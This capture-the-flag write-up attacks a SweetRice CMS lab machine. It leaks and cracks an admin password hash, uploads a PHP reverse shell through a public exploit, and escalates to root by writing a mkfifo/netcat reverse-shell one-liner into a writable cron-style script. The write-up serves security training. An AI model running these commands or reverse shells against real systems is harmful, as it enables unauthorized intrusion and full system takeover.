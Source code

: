 Target: 10.10.160.79

## Enumeration:

nmap
```bash
$ nmap -sC -sV 10.10.160.79
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 11:03 PDT
Nmap scan report for 10.10.160.79
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

gobuster
```bash
$ gobuster dir -u http://10.10.160.79 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -z

/content              (Status: 301) [Size: 314] [--> http://10.10.160.79/content/]
```

## Foothold:

search for sweetrice exploits

[Exploit Link](https://www.exploit-db.com/exploits/40718)

http://10.10.160.79/content/inc/mysql_backup/
```sql
'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{
<snip>
s:5:\\"admin\\";
s:7:\\"manager\\";
s:6:\\"passwd\\";
s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";
<snip>
```

hashcat
```bash
$ hashcat -m 0 -o crack.txt '42f749ade7f9e195bf475f37a44cafcb' /usr/share/wordlists/rockyou.txt
> Password123
```

Loot:
manager:Password123

test creds to http://10.10.160.79/content/as/

[Exploit Link](https://www.exploit-db.com/exploits/40716)

edit 40716.py
```
host = '10.10.160.79/content'
username = 'manager'
password = 'Password123'
filename = 'php-reverse-shell.php5'
```

[Payload Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

run exploit
```bash
$ python 40716.py
```

open nc session
```bash
nc -lnvp 8888
```

open link 10.10.160.79/content/attachment/php-reverse-shel.php5


## Lateral Movement:

## Priv Escalation:

```bash
$ cd/home/itguy
$ cat user.txt
<redacted>
```

```bash
$ sudo -l
<snip>
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

```bash
$ ls -la 
<snip>
-rw-r--r-x   1 root root      47 Nov 29  2019 backup.pl
```

```bash
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

```bash
$ ls -la /etc/ | grep 'copy.sh'
-rw-r--rwx   1 root root      81 Nov 29  2019 copy.sh
```

```bash
$ cat /etc/copy.sh

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

```bash
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.4.181 5554 >/tmp/f" > /etc/copy.sh
```

open another nc session
```bash
$ nc -lnvp 5554
```

run on www-data
```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

run on root
```bash
$ cat /root/root.txt
<redacted>
```
